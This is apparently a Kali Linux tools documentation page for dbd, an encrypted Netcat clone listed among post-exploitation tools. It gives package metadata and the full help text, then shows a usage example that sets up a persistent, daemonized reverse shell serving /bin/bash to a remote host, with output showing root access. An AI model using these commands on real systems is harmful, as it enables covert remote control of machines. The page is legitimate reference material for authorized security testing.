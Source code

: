 ```yaml
---
Title: dbd
Homepage: https://github.com/gitdurandal/dbd
Repository: https://gitlab.com/kalilinux/packages/dbd
Architectures: any
Version: 1.50-1kali7
Metapackages: kali-linux-default kali-linux-everything kali-linux-headless kali-linux-large kali-linux-nethunter kali-tools-post-exploitation kali-tools-windows-resources 
Icon: images/dbd-logo.svg
PackagesInfo: |
 ### dbd
 
  dbd is a Netcat-clone, designed to be portable and offer
  strong encryption. It runs on Unix-like operating systems
  and on Microsoft Win32. dbd features AES-CBC-128 +
  HMAC-SHA1 encryption (by Christophe Devine), program
  execution (-e option), choosing source port, continuous
  reconnection with delay, and some other nice features.
  dbd supports TCP/IP communication only. Source code and
  binaries are distributed under the GNU General Public
  License.
 
 **Installed size:** `2.84 MB`  
 **How to install:** `sudo apt install dbd`  
 
 ##### dbd
 
 
 ```
 root@kali:~# dbd -h
 dbd 1.50 Copyright (C) 2013 Kyle Barnthouse <durandal@gitbrew.org>
 $Id: dbd.c,v 1.50 2013/05/20 15:40:00 durandal Exp $
 
 This program is free software; you can redistribute it and/or modify it under
 the terms of the GNU General Public License as published by the Free Software
 Foundation; either version 2 of the License, or (at your option) any later
 version.
 
 connect (tcp): dbd [-options] host port
 listen (tcp):  dbd -l -p port [-options]
 options:
     -l          listen for incoming connection
     -p n        choose port to listen on, or source port to connect out from
     -a address  choose an address to listen on or connect out from
     -e prog     program to execute after connect (e.g. -e cmd.exe or -e bash)
     -r n        infinitely respawn/reconnect, pause for n seconds between
                 connection attempts. -r0 can be used to re-listen after
                 disconnect (just like a regular daemon)
     -c on|off   encryption on/off. specify whether you want to use the built-in
                 AES-CBC-128 + HMAC-SHA1 encryption implementation (by
                 Christophe Devine - http://www.cr0.net:8040/) or not
                 default is: -c on
     -k secret   override default phrase to use for encryption (secret must be
                 shared between client and server)
     -q          hush, quiet, don't print anything (overrides -v)
     -v          be verbose
     -n          toggle numeric-only IP addresses (don't do DNS resolution). if
                 you specify -n twice, original state will be active (i.e. -n
                 works like a on/off switch)
     -m          toggle monitoring (snooping) on/off (only used with the -e
                 option). snooping can also be turned on by specifying -vv (-v
                 two times)
     -P prefix   add prefix (+ a hardcoded separator) to all outbound data.
                 this option is mostly only useful for dbd in "chat mode" (to
                 prefix lines you send with your nickname)
     -H on|off   highlight incoming data with a hardcoded (color) escape
                 sequence (for e.g. chatting). default is: -H off
     -V          print version banner and exit (include that output in your
                 bug report and send bug report to michel.blomgren@tigerteam.se)
 unix-like OS specific options:
     -s          invoke a shell, nothing else. if dbd is setuid 0, it'll invoke
                 a root shell
     -w n        "immobility timeout" in seconds for idle read/write operations
                 and program execution (the -e option)
     -D on|off   fork and run in background (daemonize). default: -D off
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## dbd Usage Example

On the client, respawn every 2400 seconds (`-r 2400`), run as a daemon (`-D on`), display verbose output (`-v`), and serve a bash shell (`-e /bin/bash`), connecting to the remote host (`192.168.1.202`) on port 8080 (`8080`).

On the server, listen for a connection (`-l`) on port 8080 (`-p8080`), and display verbose output (-v).

```
root@kali:~# dbd -r 2400 -D on -v -e /bin/bash 192.168.1.202 8080
```


```
root@kali:~# dbd -l -p8080 -v
listening on port 8080
reverse lookup of 192.168.1.202 failed: Unknown server error
connect to 192.168.1.202:8080 from 192.168.1.202:58651 (n/a)
id
uid=0(root) gid=0(root) groups=0(root)
```
